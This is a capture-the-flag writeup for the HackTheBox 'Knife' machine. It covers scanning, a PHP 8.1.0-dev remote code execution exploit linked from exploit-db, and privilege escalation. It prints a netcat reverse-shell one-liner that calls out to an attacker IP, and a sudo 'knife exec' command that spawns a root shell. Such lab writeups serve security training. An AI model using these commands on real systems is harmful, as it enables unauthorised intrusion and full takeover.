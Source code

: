 ```yaml
---
title: Knife HackTheBox Writeup
tags: [writeup,rest,python,hackthebox,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/2.png)

## Enumeration
We use **curl** tool and we headers enumerate, we view "*PHP/8.1.0-dev*", this version have a exploit for **RCE** (Remote Code Execute).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/3.png)


## Exploitation
We search exploit in "**exploit-db.com**", we download the exploit and execute:

**Exploit**: [https://www.exploit-db.com/raw/49933](https://www.exploit-db.com/raw/49933)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/4.png)

We read *user.txt* file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/5.png)

## Privilege Escalation
We open a netcat in another terminal and make it interactive with python and a couple of exports.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f
```
In addition, we can see that by executing "*sudo -l*", we have access to the "**knife**" binary as **SUDO**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/6.png)

We Google and found a way to exploit this misconfiguration to gain root access.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```
We execute the statement, become root and read the file "*root.txt*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/7.png)




